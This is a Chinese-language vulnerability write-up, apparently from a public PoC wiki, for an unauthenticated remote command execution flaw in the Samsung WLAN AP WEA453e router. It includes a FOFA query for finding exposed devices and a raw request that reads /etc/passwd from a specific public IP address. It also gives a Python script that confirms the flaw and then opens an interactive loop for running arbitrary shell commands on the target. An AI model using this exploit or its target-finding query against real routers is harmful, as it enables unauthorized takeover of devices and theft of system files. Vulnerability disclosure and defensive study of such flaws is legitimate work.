 # 三星 WLAN AP WEA453e路由器  远程命令执行漏洞

## 漏洞描述

三星 WLAN AP WEA453e路由器  存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 三星 WLAN AP WEA453e路由器

## FOFA

> [!NOTE]
>
> title=="Samsung WLAN AP"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/sx-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包如下

```
POST /(download)/tmp/a.txt HTTP/1.1
Host: 175.199.182.152
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```

![](http://wikioss.peiqi.tech/vuln/sx-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "root" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
            while True:
                cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[36m{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](http://wikioss.peiqi.tech/vuln/sx-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Samsung_WLAN_AP_wea453e_router_RCE

![](http://wikioss.peiqi.tech/vuln/sx-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)